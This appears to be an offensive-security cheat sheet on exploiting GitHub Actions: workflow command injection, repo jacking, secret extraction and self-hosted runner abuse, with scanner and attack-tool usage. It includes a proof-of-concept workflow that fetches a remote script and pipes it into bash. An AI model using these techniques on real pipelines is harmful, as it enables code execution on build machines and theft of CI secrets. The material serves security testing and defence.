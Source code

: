 # GitHub Actions

## Default Action

The configuration files for GH actions are located in the directory `.github/workflows/`\
You can tell if the action builds pull requests based on its trigger (`on`) instructions:

```yaml
on:
  push:
    branches:
      - master
  pull_request:
```

In order to run a command in an action that builds pull requests, add a `run` instruction to it.

```yaml
jobs:
  print_issue_title:
    runs-on: ubuntu-latest
    name: Command execution
    steps:
    - run: echo whoami"
```


## Misconfigured Actions

Analyze repositories to find misconfigured Github actions.

* [synacktiv/octoscan](https://github.com/synacktiv/octoscan) - Octoscan is a static vulnerability scanner for GitHub action workflows.
* [boostsecurityio/poutine](https://github.com/boostsecurityio/poutine) - Poutine is a security scanner that detects misconfigurations and vulnerabilities in the build pipelines of a repository. It supports parsing CI workflows from GitHub Actions and Gitlab CI/CD.
    ```ps1
    # Using Docker
    $ docker run ghcr.io/boostsecurityio/poutine:latest

    # Analyze a local repository
    $ poutine analyze_local .

    # Analyze a remote GitHub repository
    $ poutine -token "$GH_TOKEN" analyze_repo messypoutine/gravy-overflow

    # Analyze all repositories in a GitHub organization
    $ poutine -token "$GH_TOKEN" analyze_org messypoutine

    # Analyze all projects in a self-hosted Gitlab instance
    $ poutine -token "$GL_TOKEN" -scm gitlab -scm-base-uri https://example.com org/repo
    ```

![](https://raw.githubusercontent.com/jstawinski/GitHub-Actions-Attack-Diagram/refs/heads/main/GitHub%20Actions%20Attack%20Diagram.svg)


### Repo Jacking

When the action is using a non-existing action, Github username or organization.

```yaml
- uses: non-existing-org/checkout-action
```

> :warning: To protect against repojacking, GitHub employs a security mechanism that disallows the registration of previous repository names with 100 clones in the week before renaming or deleting the owner's account. [The GitHub Actions Worm: Compromising GitHub Repositories Through the Actions Dependency Tree - Asi Greenholts](https://www.paloaltonetworks.com/blog/prisma-cloud/github-actions-worm-dependencies/)


### Untrusted Input Evaluation

An action may be vulnerable to command injection if it dynamically evaluates untrusted input as part of its `run` instruction:

```yaml
jobs:
  print_issue_title:
    runs-on: ubuntu-latest
    name: Print issue title
    steps:
    - run: echo "${{github.event.issue.title}}"
```


### Extract Sensitive Variables and Secrets

**Variables** are used for non-sensitive configuration data. They are accessible only by GitHub Actions in the context of this environment by using the variable context.

**Secrets** are encrypted environment variables. They are accessible only by GitHub Actions in the context of this environment by using the secret context. 

```yml
jobs:
  build:
    runs-on: ubuntu-latest
    environment: env
    steps:
      - name: Access Secrets
        env:
            SUPER_SECRET_TOKEN: ${{ secrets.SUPER_SECRET_TOKEN }}
        run: |
            echo SUPER_SECRET_TOKEN=$SUPER_SECRET_TOKEN >> local.properties
```

* [synacktiv/gh-hijack-runner](https://github.com/synacktiv/gh-hijack-runner) - A python script to create a fake GitHub runner and hijack pipeline jobs to leak CI/CD secrets.


## Self-Hosted Runners

A self-hosted runner for GitHub Actions is a machine that you manage and maintain to run workflows from your GitHub repository. Unlike GitHub's own hosted runners, which operate on GitHub's infrastructure, self-hosted runners run on your own infrastructure. This allows for more control over the hardware, operating system, software, and security of the runner environment. 

Scan a public GitHub Organization for Self-Hosted Runners

* [AdnaneKhan/Gato-X](https://github.com/AdnaneKhan/Gato-X) - Fork of Gato - Gato (Github Attack TOolkit) - Extreme Edition
* [praetorian-inc/gato](https://github.com/praetorian-inc/gato) - GitHub Actions Pipeline Enumeration and Attack Tool
    ```ps1
    gato -s enumerate -t targetOrg -oJ target_org_gato.json
    ```

There are 2 types of self-hosted runners: non-ephemeral and ephemeral.

* **Ephemeral** runners are short-lived, created to handle a single or limited number of jobs before being terminated. They provide isolation, scalability, and enhanced security since each job runs in a clean environment.
* **Non-ephemeral** runners are long-lived, designed to handle multiple jobs over time. They offer consistency, customization, and can be cost-effective in stable environments where the overhead of provisioning new runners is unnecessary.

Identify the type of self-hosted runner with `gato`:

```ps1
gato e --repository vercel/next.js
[+] The authenticated user is: swisskyrepo
[+] The GitHub Classic PAT has the following scopes: repo, workflow
    - Enumerating: vercel/next.js!
[+] The repository contains a workflow: build_and_deploy.yml that might execute on self-hosted runners!
[+] The repository vercel/next.js contains a previous workflow run that executed on a self-hosted runner!
    - The runner name was: nextjs-hel1-22 and the machine name was nextjs-hel1-22 and the runner type was repository in the Default group with the following labels: self-hosted, linux, x64, metal
[!] The repository contains a non-ephemeral self-hosted runner!
[-] The user can only pull from the repository, but forking is allowed! Only a fork pull-request based attack would be possible.
```

Example of workflow to run on a non-ephemeral runner:

```yml
name: POC
on:
  pull_request:
  
jobs:
  security:
    runs-on: non-ephemeral-runner-name

    steps:
      - name: cmd-exec
        run: |
          curl -k https://ip.ip.ip.ip/exec.sh | bash
```


## References

* [GITHUB ACTIONS EXPLOITATION: SELF HOSTED RUNNERS - Hugo Vincent - 17/07/2024](https://www.synacktiv.com/publications/github-actions-exploitation-self-hosted-runners)
* [GITHUB ACTIONS EXPLOITATION: REPO JACKING AND ENVIRONMENT MANIPULATION - Hugo Vincent - 10/07/2024 ](https://www.synacktiv.com/publications/github-actions-exploitation-repo-jacking-and-environment-manipulation)
* [GITHUB ACTIONS EXPLOITATION: DEPENDABOT - Hugo Vincent - 06/08/2024 ](https://www.synacktiv.com/publications/github-actions-exploitation-dependabot)